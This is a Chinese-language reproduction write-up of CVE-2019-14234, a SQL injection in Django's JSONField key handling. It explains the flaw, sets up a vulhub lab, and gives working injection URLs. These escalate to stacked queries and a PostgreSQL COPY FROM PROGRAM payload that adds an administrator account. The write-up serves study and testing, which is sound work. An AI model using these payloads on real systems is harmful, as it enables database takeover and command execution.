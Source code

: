 （CVE-2019-14234）Django JSONField sql注入漏洞
==============================================

一、漏洞简介
------------

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key\_name是可控的字符串，最终生成的语句是WHERE
(field-\>\'\[key\_name\]\') = \'value\'，因此可以进行SQL注入。

二、漏洞影响
------------

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

三、复现过程
------------

### 环境搭建

    git clone https://github.com/vulhub/vulhub.git
    cd vulhub/django/CVE-2019-14234/
    docker-compose up -d

### 漏洞利用

#### 1、登录后台

http://ip:8000/admin/vuln/collection/

#### 2、构造URL进行查询

http://ip:8000/admin/vuln/collection/?detail\_\_a%27b=123

![](resource/(CVE-2019-14234)DjangoJSONFieldsql注入漏洞/media/rId28.png)

可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造

    http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1--

后台生成的sql语句的关键部分是

    WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

image

下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下

    http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20

页面结果虽然报错，但是报错原因是no results to
fetch，说明我们的语句已经执行

![](resource/(CVE-2019-14234)DjangoJSONFieldsql注入漏洞/media/rId29.png)

最终payload

    http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20
